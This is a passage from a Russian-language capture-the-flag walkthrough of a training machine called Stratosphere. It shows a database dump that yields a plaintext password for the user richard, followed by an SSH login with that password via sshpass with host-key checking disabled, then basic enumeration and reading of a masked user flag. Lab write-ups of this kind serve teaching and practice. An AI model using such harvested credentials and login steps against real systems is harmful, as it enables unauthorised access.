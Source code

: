 ```
1 row in set (0.00 sec)

MariaDB [users]>
select * from accounts;
select * from accounts;
+------------------+---------------------------+----------+
| fullName         | password                  | username |
+------------------+---------------------------+----------+
| Richard F. Smith | 9tc*rhKuG5TyXvUJOrE^5CK7k | richard  |
+------------------+---------------------------+----------+
1 row in set (0.00 sec)
```

Выдвину уникальное предположение, что это авторизационные данные пользователя richard (и не прогадаю :smiling_imp:)!

# SSH — Порт 22 (внутри машины)
Подключимся к машине по SSH (для удобства передаем пароль как аргумент командной строки и пропускаем проверку сертификата — учебная же все же машина):
```
root@kali:~# sshpass -p '9tc*rhKuG5TyXvUJOrE^5CK7k' ssh -oStrictHostKeyChecking=no richard@10.10.10.64
richard@stratosphere:~$ whoami
richard

richard@stratosphere:~$ id
uid=1000(richard) gid=1000(richard) groups=1000(richard),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),112(lpadmin),116(scanner)

richard@stratosphere:~$ ls -la
total 40
drwxr-x--- 5 richard richard 4096 Mar 19 15:23 .
drwxr-xr-x 4 root    root    4096 Sep 19  2017 ..
lrwxrwxrwx 1 root    root       9 Feb 10  2018 .bash_history -> /dev/null
-rw-r--r-- 1 richard richard  220 Sep 19  2017 .bash_logout
-rw-r--r-- 1 richard richard 3526 Sep 19  2017 .bashrc
drwxr-xr-x 3 richard richard 4096 Oct 18  2017 .cache
drwxr-xr-x 3 richard richard 4096 Oct 18  2017 .config
drwxr-xr-x 2 richard richard 4096 Oct 18  2017 Desktop
-rw-r--r-- 1 richard richard  675 Sep 19  2017 .profile
-rwxr-x--- 1 root    richard 1507 Mar 19 15:23 test.py
-r-------- 1 richard richard   33 Feb 27  2018 user.txt
```

## user.txt
Заберем флаг пользователя:
```text
richard@stratosphere:~$ cat /home/richard/user.txt
e610b298????????????????????????
```
